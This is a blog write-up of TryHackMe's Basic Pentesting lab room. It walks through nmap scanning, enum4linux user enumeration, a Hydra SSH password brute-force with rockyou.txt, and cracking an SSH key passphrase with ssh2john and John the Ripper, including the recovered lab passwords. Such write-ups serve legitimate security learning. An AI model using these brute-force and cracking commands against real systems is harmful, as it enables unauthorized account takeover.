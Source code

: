 ```yaml
---
emoji: ":thermometer:"
title: "How to Warm Up my HACKING skills with TryHackMe"
date: "2020-04-23T14:17:03Z"
author: Jorge Chato
categories:
- hack 
tags:
- hack
draft: false
toc: true
summary: |
  TryHackMe is an online platform for learning and teaching cyber security.
  It is based on completing rooms and upskill in security, all from your browser.
  This is my writeup for the Basic pentesting room.
---
```



I have the feeling that the core of the last few articles is related to **_pentesting_** and **_hacking_**. But after discussing about integration patterns, coding and best practices all day long in my job I fond myself enjoying the hacking challenges in my spare time.

TryHackMe is an online platform for learning and teaching cyber security. It is based on completing rooms and upskill in security, all from your browser.

This article is a **Writeups** for the  [_Basic Pentesting_ room](https://tryhackme.com/room/basicpentestingjt).

{{< figure src="/img/2020/03/image.png" >}}

**1️. Deploy the machine and connect to our network**

**2️. Find the services exposed by the machine**

```bash
$ nmap -sC -sV <IP>
```

```bash
# Nmap 7.80 scan initiated Sun Mar 22 11:26:39 2020 as: nmap -sC -sV -oN output/nmap 10.10.38.196
Nmap scan report for 10.10.38.196
Host is up (0.077s latency).
Not shown: 997 closed ports
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 db:45:cb:be:4a:8b:71:f8:e9:31:42:ae:ff:f8:45:e4 (RSA)
|   256 09:b9:b9:1c:e0:bf:0e:1c:6f:7f:fe:8e:5f:20:1b:ce (ECDSA)
|_  256 a5:68:2b:22:5f:98:4a:62:21:3d:a2:e2:c5:a9:f7:c2 (ED25519)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: BASIC2; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h19m59s, deviation: 2h18m34s, median: -1s
|_nbstat: NetBIOS name: BASIC2, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery:
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: basic2
|   NetBIOS computer name: BASIC2\x00
|   Domain name: \x00
|   FQDN: basic2
|_  System time: 2020-03-22T06:26:54-04:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2020-03-22T10:26:54
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Mar 22 11:26:58 2020 -- 1 IP address (1 host up) scanned in 19.80 seconds
```

We  have 3 Open PORTS:

* 22 (SSH)
* 139 and 445 (smbd)

If we open this IP in the browser we see a server sunning.

{{< figure src="/img/2020/03/image-6.png" >}}

{{< figure src="/img/2020/03/image-2.png" >}}

**3. What is the name of the hidden directory on the web server(enter name without /)?**

```html
<!-- Check our dev note section if you need to know what to worck on. -->
```

We could use [gobuster](https://github.com/OJ/gobuster) to search for directories with brute-force but since we have a hint here let's try it first... ok `/dev` isn't the directory we are looking for but we see an apache server running. Maybe `/development` is the right endpoint... Yes, we nailed it.

{{< figure src="/img/2020/03/image-5.png" >}}

{{< figure src="/img/2020/03/image-7.png" >}}

{{< figure src="/img/2020/03/image-8.png" >}}

**4. User brute-forcing to find the username & password**

**5. What is the username?**

We have smbd open, that can give us a lot of information. We can use Enum4linux for that. Since I don't have the tool installed on my machine and handling all the dependencies may be a nightmare let's use docker.

```bash
$ docker run --rm -it enum4linux -a <IP>
```

2 users pop up, **jan** a.k.a. J and **kay** a.k.a. K.

**6. What is the password? + 7. What service do you use to access the server(answer in abbreviation in all caps)?**

Seen the input field we can assume the password is pretty simple, a brute force approach should unlock it.

We have the information about the open ports thanks the nmap tool. SSH is a great candidate with a tool called **_[Hydra](https://tools.kali.org/password-attacks/hydra)_**. A common password dictionary is needed tho and we are going to use [rockyou.txt](https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt)

Rockyou.txt contains 14,341,564 unique passwords, used in 32,603,388 accounts.

Kali Linux provides this dictionary file as part of its standard installation.

```bash
$ hydra -l jan -P rockyou.txt ssh:<ip>

login: jan   password: armando
```

**8. Enumerate the machine to find any vectors for privilege escalation**

**9. What is the name of the other user you found(all lower case)?**

We already have this information from point 5.

**10. If you have found another user, what can you do with this information? + 11. What is the final password you obtain?**

Awesome, now we can login with SSH as `jan` . Listing the file in jan directory doesn’t give us any answer to escalating the privilege. Still, remember we have the user kay? Let’s find it out.

We found the `id_rsa` and `id_rsa.pub` and a strange file `pass.back`, unfortunately when we try to ssh using the key file we see the key requires a passphrase.

```bash
$ ssh -i id_rsa kay@<IP>

Enter passphrase for key 'id_rsa':
```

But luckily we can cat out this file and crack the key with [JohnTheRipper](https://github.com/magnumripper/JohnTheRipper/blob/bleeding-jumbo/run/ssh2john.py)

```bash
$ ssh2john.py output/kay/id_rsa > id_rsa.txt

$ docker run -it --rm -v $(pwd)/id_rsa.txt:/opt/id_rsa.txt -v $(pwd)/dic/rockyou.txt:/opt/rockyou.txt obscuritylabs/johntheripper /opt/id_rsa.txt --wordlist=/opt/rockyou.txt
...
beeswax   (output/kay/id_rsa)
```

Now we can login as kay with the public key and cat the strange file we saw under the home directory for this user.

```bash
$ ssh -i id_rsa kay@<IP>

$ cat pass.back

heresareallystrongpasswordthatfollowsthepasswordpolicy$$
```

> The stream is in **Spanish**

<iframe width="480" height="270" src="https://www.youtube.com/embed/UK9YkhEI4CU?feature=oembed" frameborder="0" allow="accelerometer; autoplay; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>

